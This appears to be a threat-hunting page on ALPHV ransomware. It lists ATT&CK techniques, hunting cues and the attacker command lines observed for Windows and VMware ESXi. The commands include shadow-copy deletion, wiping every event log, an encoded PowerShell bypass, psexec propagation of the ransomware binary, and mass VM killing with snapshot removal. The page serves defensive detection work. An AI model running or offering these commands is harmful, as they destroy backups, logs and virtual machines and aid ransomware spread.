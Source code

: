 ```yaml
---
cover: ../../.gitbook/assets/cat2.png
coverY: 0
---
```


# TTPs

## TTPs

* T1003.004 - OS Credential Dumping: LSA Secrets
* T1005 - Data from Local System
* T1007 - System Service Discovery&#x20;
* T1021.001 - Remote Desktop Protocol (RDP)
* T1021.002 - SMB/Windows Admin Shares&#x20;
* T1027 - Obfuscated Files or Information&#x20;
* T1027.002 - Obfuscated Files or Information: Software Packing&#x20;
* T1047 - Windows Management Instrumentation
* T1049 - System Network Connections Discovery
* T1053.003 - Command and Scripting Interpreter: Windows Command Shell
* T1057 - Process Discovery&#x20;
* T1059 - Command and Scripting Interpreter&#x20;
* T1078 - Valid Accounts&#x20;
* T1082 - System Information Discovery&#x20;
* T1083 - File and Directory Discovery&#x20;
* T1090.003 - Multi-hop Proxy
* T1105 - Ingress Tool Transfer
* T1112 - Modify Registry
* T1129 - Shared Modules
* T1140 - Deobfuscate/Decode Files or Information&#x20;
* T1202 - Indirect Command Execution&#x20;
* T1218.003 - Signed Binary Proxy Execution: CMSTP
* T1485 - Data Destruction&#x20;
* T1486 - Data Encrypted for Impact&#x20;
* T1489 - Service Stop&#x20;
* T1490 - Inhibit System Recovery
* T1498 - Network Denial of Service
* T1499 - Endpoint Denial of Service&#x20;
* T1531 - Account Access Removal&#x20;
* T1543.003 - Create or Modify System Process: Windows Service&#x20;
* T1550.002 - Use Alternate Authentication Material: Pass the Hash&#x20;
* T1552 - Unsecured Credentials&#x20;
* T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay
* T1560 - Archive Collected Data
* T1562.001 - Impar Defenses: Disable or Modify Tools
* T1567.002 - Exfiltration to Cloud Storage&#x20;
* T1569.002 - System Service: Service execution
* T1570 - Lateral Tool Transfer&#x20;

## Hunt Activity

* Suspicious SMB traffic
* 'vssadmin' shadow copy deletions
* Recovery mode edits or disables using 'bcedit.exe'
* Propagation via 'psexec'
* Use of anti-forensics tools like fileshredder
* Collection machine UUID via WMIC commands
* The universally unique identifier (UUID) is later used, together with the token, to identify the victim in a Tor website hosted by the malicious actors.
* Delete volume shadow copies.
* Increase the number of network requests that the server service can perform.
* Stop the IIS service using the iisreset.exe, a well-known tool used to handle IIS services.
* Execute arp command to display current ARP (Address Resolution Protocol) entries.
* Execute Fsutil to allow the use of both remote and local symlinks.
* Clear all event logs via wevutil.exe.

## Behaviour

### Windows

```
cmd /c wmic csproduct get UUID
vssadmin.exe delete shadows /all /quiet
powershell.exe -nop -exec bypass -EncodedCommand LgBcAHMAcAByAGUAYQBkAC4AYgBhAHQAIABtAGsAcwBoAGEAcgBlACAAUgBFAEEARAA=
icacls c:\windows\debug\app /grant "Authenticated Users":(OI)(CI)F /T
net share app)c:\windows\debug\app /grant:everyone,READ
fsutil behavior set SymlinkEvaluation R2L:1 
fsutil behavior set SymlinkEvaluation R2R:1
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /d 65535 /t REG_DWORD /f
psexec.exe -accepteula \\<TARGET_HOST> -u <USERNAME> -p <PASSWORD> -s -d -f -c <ALPHV_EXECUTABLE> [FLAGS] [OPTIONS] --access-token <ACCESS_TOKEN> [SUBCOMMAND]
arp -a
%SYSTEM32%\DllHost.exe /Processid:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}
for /F \"tokens=*\" %1 in ('wevtutil.exe el') DO wevtutil.exe cl \"%1\"" 
```

### Linux / VMware ESXi

```
esxcli --formatter=csv --format-param=fields=="WorldID,DisplayName" vm process list
awk -F "\"*,\"*" '{system("esxcli vm process kill --type=force --world-id="$1)}'
for i in `vim-cmd vmsvc/getallvms| awk '{print$1}'`;do vim-cmd vmsvc/snapshot.removeall $i & done 
```
